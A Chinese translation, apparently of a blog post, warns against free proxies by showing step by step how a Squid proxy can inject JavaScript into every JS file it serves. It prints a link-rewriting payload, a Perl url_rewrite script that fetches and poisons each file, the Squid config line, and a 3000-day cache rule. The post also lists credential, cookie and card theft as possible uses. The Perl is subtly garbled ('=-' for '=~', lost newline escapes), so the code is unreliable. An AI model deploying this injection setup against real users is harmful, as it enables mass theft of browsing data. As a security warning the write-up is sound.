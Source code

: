 ```yaml
---
title: 'Why are free proxies free?[译]'
layout: post
guid: urn:uuid:b87da13a-a4dd-402f-b06a-cef720150705
tags:
    - translate
    - web
    - security
---
```



本文由 [伯乐在线](http://blog.jobbole.com) - [光光头去打酱油](http://www.jobbole.com/members/zhongjianno1) 翻译，[黄利民](http://www.jobbole.com/members/huanglimin) 校稿。未经许可，禁止转载！
英文出处：[Christian Haschek](https://blog.haschek.at/post/fd9bc)。欢迎加入[翻译组](http://group.jobbole.com/category/feedback/trans-team/)。

【伯乐在线注】：原文副标题是“因为这是一种轻松搞到成千上万用户数据的途径”，作者后来还写了一篇文章《[分析了443个免费代理，其中只有21％没有黑幕，那么剩下的79%呢？](http://blog.jobbole.com/87822/)》。

最近偶然发现， Chema Alonso 在 Defcon 20 会议上谈到他如何从头开始创建一个JavaScript 僵尸网络，然后如何使用它来找到骗子和黑客。

一切都是通过一个 SQUID 代理并修改了些小配置完成的。

这个想法非常简单：

1.【服务器】在一台 linux 服务器上安装 Squid

2.【Payload】修改服务器配置，给所有传输的 javascript 文件插入一些代码，这些代码的作用就是将用户数据传送到你的服务器上，比如用户在表单中输入的所有数据。

3.【缓存】将修改过的 js 文件的缓存时间尽可能延长。

## 可能发生的最坏事情是什么？

当某人能强迫你加载一个受感染的 JS 文件， 那他们可以：

*   窃取你访问的网站的登录信息（从登录表单中或 cookies）
*   窃取你的银行账号或信用卡信息
*   强迫你参与 DDOS 攻击，让你的浏览器一秒钟内加载一个网站几百次，通过 iframe 或 script（脚本）来发送请求。
*   基本你上网做的任何事情都能看到（包括你阅读时鼠标的位置）

## https

如果你的网站加载了一些不安全的资源（比如从一个 http 站点加载 jquery），那该手法在 https 链接上也能生效。大多数浏览器都会提醒你，有些甚至会阻止你访问不安全的内容，但是没有人注意到浏览器地址栏中“锁”的符号。

#### 举个例子

安全：[![a1279bf58d](http://jbcdn2.b0.upaiyun.com/2015/06/4052c3bb6c17583a7cfddf7f07331480.png)](http://jbcdn2.b0.upaiyun.com/2015/06/4052c3bb6c17583a7cfddf7f07331480.png)

不安全：[![9f0d9fc0ce](http://jbcdn2.b0.upaiyun.com/2015/06/40d5191bfedec42199ee845c3a1aae59.png)](http://jbcdn2.b0.upaiyun.com/2015/06/40d5191bfedec42199ee845c3a1aae59.png)

在介绍中，Chema 说他将修改过的服务器 IP 地址发布到网络上，几天后就有 5000 多人使用这个代理。大多数使用代理的人都是为了做坏事，因为他们都知道使用了代理在网络上就变成匿名了，似乎许多人都没有考虑过这个问题：代理同样也可以对他们做一些坏事。

我在想是不是真的那么简单，所以我建了一个运行 Debian(Linux的一个发行版) 的虚拟机，然后努力实现这些概念。

## 编写自己的 js 来感染代理

假设你有一个运行 squid 的代理，同时你还需要一个网站服务器，如使用 /var/www 为根目录(默认设置)的 Apache 服务器。

## 步骤1：创建一个 payload

我打算用一个简单的脚本获取网页上所有的链接，然后将 href(链接) 属性改写成我的站点。

/etc/squid/payload.js

    for(var i=0;i&lt;document.getElementsByTagName('a').length;i++)  
       document.getElementsByTagName('a')[i].href = "https://blog.haschek.at";

## 步骤2：将脚本注入所有请求的 js 文件中。

/etc/squid/poison.pl

```
#!/usr/bin/perl

$|=1;
$count = 0;
$pid = $;

while(&lt;&gt;)
{
  chomp $_;
  if($_ =- /(.*.js)/i)
  {
        $url = $1;
        system("/usr/bin/wget","-q","-O","/var/www/tmp/$pid-$count.js","$url");
        system("chmod o+r /var/www/tmp/$pid-$count.js");
        system("cat /etc/squid/payload.js &gt;&gt; /var/www/tmp/$pid-$count.js");
        print "http://127.0.0.1:80/tmp/$pid-$count.jsn";
  }
  else
  {
        print "$_n";
  }
$count++;
}
```

这个脚本会用 wget 检索到客户端请求的原来的 javascript 文件，然后将 /etc/squid/payload.js 文件中的代码增加进去。这个修改的文件（包含我们的有效负载）将被发送给客户端。你也可以创建文件夹 /var/www/tmp ，然后允许 squid 在该文件夹中写入。这个文件夹可以存放所有被修改过的 js 脚本。

## 步骤3：告诉 Squid 使用上文中的脚本

在 /etc/squid/squid.conf 中添加

    url_rewrite_program /etc/squid/poison.pl

## 步骤4：让缓存永不过期

/var/www/tmp/.htaccess

    ExpiresActive On
    ExpiresDefault "access plus 3000 days"

这几行告诉 apache 服务器，设置一个疯狂的过期（缓存）时间，所以它会一直存在用户的浏览器中，直到他们清除缓存或 cookies。

重启下 squid 就能运行了。如果你连接到代理上，然后浏览网页，网页会显示预期的内容，但是所有的链接会被指向这个博客。这项技术更猥琐的是，当你断开了与代理的连接，从代理缓存的 js 文件仍存在浏览的缓存中。

在我的例子中 payload 不太具有破坏性，用户很快就能理解什么是“钓鱼”，但是富有创造性的 payload 或像 Beef 类似的框架就能被用来实现各种各样的东西。告诉你的朋友们，绝不要使用免费的代理，因为许多代理就做这些坏事情。

安全上网（但不要使用免费的代理）